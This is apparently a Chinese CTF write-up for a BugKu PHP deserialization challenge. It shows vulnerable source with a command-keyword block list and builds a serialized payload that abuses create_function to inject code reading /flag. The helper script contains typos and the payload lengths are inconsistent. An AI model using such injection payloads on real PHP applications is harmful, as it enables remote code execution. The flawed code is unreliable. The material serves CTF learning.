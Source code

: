 ### PHP \00 绕过 Private

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/6810303458cb8da5c8d2bb2b.png)

打开网页给出了源码

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    // 构造函数，会在类的对象在创建时自动调用
    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    // 析构函数，在对象销毁时自动调用
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

首先，反序列化不调用构造函数

因为反序列化时通过读取对象的字节流来恢复对象的状态，而不是通过调用对象的构造函数来创建对象

所以直接来看析构函数

```php
public function __destruct()
{
    // 将属性 $a 转换为字符串
    $a = (string)$this->a;
    
    // 将属性 $b 转换为字符串
    $b = (string)$this->b;
    
    // 调用 check 方法，传入 $a 和 $b 连接后的字符串
    $this->check($a.$b);
    
    // 重点代码
    // 将 $a 作为函数调用，第一个参数为空字符串，第二个参数为 $b
    $a("", $b);
}
```

但是空的的函数不能执行，所以我们要构造一个

这里要利用 `Create_function()` 函数

```php
$func = create_function('$a, $b', 'return $a + $b;');
echo $func(2, 3); // 输出 5
```

`create_function` 实际上会在内部执行以下操作：

1. 生成一个唯一的函数名(如 `__lambda_func`)
2. 用给定的参数和代码体创建一个新函数
3. 返回这个函数名以便后续调用

构造序列化代码

```php
<?php
 
Class Noteast{
 
Private $a;
 
Private $b;
 
Public function_construct($a,$b){
 
$this->a=$a;
 
$this->b=$b;
 
}
 
$object=new Noteasy("create_function",';}highlight_file("/flag");/*;');
 
Echo serialize($object);
 
}
```

这样相当于

```php
create_function('', ';}highlight_file("/flag");/*;')
```

实际创建的代码为

```php
function __lambda_func() {
    ;}highlight_file("/flag");/*;
}
```

得到

```php
O:7:"Noteasy":2:{s:10:"Noteasya";s:15:"create_function";s:10:"Noteasyb";s:21:';}highlight_file("/flag");/*;";}
```

需要注意因为是 `private` 属性，所以不能直接使用

应该为 `\00类名\00`

```php
O:7:"Noteasy":2:{s:10:"\00Noteasy\00a";s:15:"create_function";s:10:"\00Noteasy\00b";s:29:";}highlight_file("/flag");/*";}
```

![](https://pic1.imgdb.cn/item/6810301658cb8da5c8d2bb1a.png)